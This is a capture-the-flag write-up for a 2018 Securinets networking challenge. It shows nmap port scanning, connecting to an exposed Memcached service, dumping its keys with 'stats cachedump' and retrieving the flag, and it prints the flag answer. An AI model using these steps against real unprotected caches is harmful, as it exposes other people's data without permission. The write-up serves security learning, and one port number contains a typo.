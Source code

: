 # Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

http://cherryblog.in/securinetsctf-quals-2018-write-up-hacking-competition/

# Title

[//]: <> (题目)

The Emperors wanted to hide their secret in a location where they can read it quickly, But they don't know anything about Security. Try to expose it: net1.quals18.ctfsecurinets.com

![](Resource/1_1.png)

# Content

[//]: <> (WriteUp内容)


Points: 200

Category: Networking

Problem: The Emperors wanted to hide their secret in a location where they can read it quickly, But they don’t know anything about Security. Try to expose it: net1.quals18.ctfsecurinets.com
Category is networking it means ,may be we need to find where is service is hosted.When i opened net1.quals18.ctfsecurintes.com in browser ,it doesn’t show anything thats means service is not hosted at port 80 so lets find all the ports by nmap.
```
nmap net1.quals18.ctfsecurinets.com -p 1-20000
```

![](Resource/1_2.png)

what is that unknown service hosted at port no. 112111.

Let’s try to netcat it:

```
netcat net1.quals18.ctfsecurinets.com 11211
```

No output.After Googling something i found that Memcached is a cache service which listen on that port. And knowing that the title of the task is Service Hidden in the bush, we can understand that “hidden” means “caching”. So maybe we can ignore that microsoft-ds service actually.

Let’s try to dump the 100 first keys:
```
stats cachedump 1 100
```
Output :
```
ITEM flag [23 b; 1521997883 s]
END
```
Excellent ! Now let’s dump that flag item:
```
get flag
```
Output :
```
Flag{M3mc4cH3d_3xp0s3d}
END
```